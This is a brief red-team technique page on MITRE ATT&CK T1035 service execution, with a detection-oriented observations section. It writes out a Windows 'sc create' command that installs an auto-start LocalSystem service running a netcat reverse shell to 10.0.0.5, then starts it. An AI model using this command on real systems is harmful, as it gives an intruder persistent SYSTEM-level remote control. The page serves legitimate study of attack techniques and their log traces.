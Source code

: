 ```yaml
---
layout: post
title: "t1035 service execution"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1035-service-execution/
---
```


---
layout: post
title: "t1035 service execution"
date: 2024-06-18
categories: persistence
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1035-service-execution/
---

---
description: 'Code Execution, Privilege Escalation'
---

# Service Execution

## Execution

Creating an evil service with a netcat reverse shell:

{% code title="attacker@victim" %}
```csharp
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```
{% endcode %}

## Observations

The reverse shell lives under services.exe as expected:

![](../../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../../.gitbook/assets/services-logs.png)

![](../../.gitbook/assets/services-shell.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1035" %}

@spotheplanet

